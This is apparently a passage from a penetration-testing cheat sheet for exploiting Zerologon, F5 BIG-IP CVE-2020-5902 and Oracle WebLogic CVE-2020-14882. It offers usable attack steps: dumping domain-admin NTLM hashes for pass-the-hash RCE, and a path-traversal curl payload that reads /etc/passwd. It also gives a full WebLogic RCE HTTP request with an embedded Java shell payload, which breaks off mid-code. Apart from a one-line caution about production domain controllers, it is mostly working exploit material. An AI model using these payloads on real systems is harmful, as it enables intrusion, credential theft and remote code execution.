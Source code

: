 bash$ python3 zerologon_tester.py EXAMPLE-DC 1.2.3.4
If the target is vulnerable the scanner showing the following output: zerologon scanner

Exploiting zerologon
The exploit could reset the domain admin password we can use zer0dump exploit instead https://github.com/bb00/zer0dump
Dumping The admin password (change the username if only one user is targetted )
dump NTLM

Getting an RCE through pass-the-hash RCE

The provided screenshots are related to a personnel lab used for the POC test only, be careful when running the exploit on DC in PROD(during an engagement)

BIGIP F5 CVE-2020-5902
Check if the target is vulnerable

curl -sk 'https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
We can scan the target using Nuclei or Nmap too

Nuclei https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/CVE-2020-5902.yaml
nuclei -t ~/tool/nuclei/nuclei-templates/cves/CVE-2020-5902.yaml -target https://<IP>
If multiple hosts are specified use -l argument -> -l bigip-assets.txt

Nmap
wget https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse
nmap -p443 {IP} --script=http-vuln-cve2020-5902.nse
BIGIP RCE
we can use Metasploit Module https://github.com/rapid7/metasploit-framework/pull/13807/commits/0417e88ff24bf05b8874c953bd91600f10186ba4

Scanning Weblogic CVE-2020-14882
Nuclei Module

nuclei -t nuclei-templates/cves/CVE-2020-14882.yaml -target http://<IP>
This module sometimes fails, use -proxy-url http://127.0.0.1:8080 to redirect traffic into Burpsuite and investigate.

Exploiting Weblogic CVE-2020-14882 - RCE
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: 172.16.242.134:7001
cmd: chcp 65001&&whoami&&ipconfig
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1258

_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = (weblogic.work.ExecuteThread) Thread.currentThread();
weblogic.work.WorkAdapter adapter = executeThread.getCurrentWork();
java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
Object obj = field.get(adapter);
weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) obj.getClass().getMethod("getServletRequest").invoke(obj);
String cmd = req.getHeader("cmd");
String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
if (cmd != null) {
    String result = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\A").next();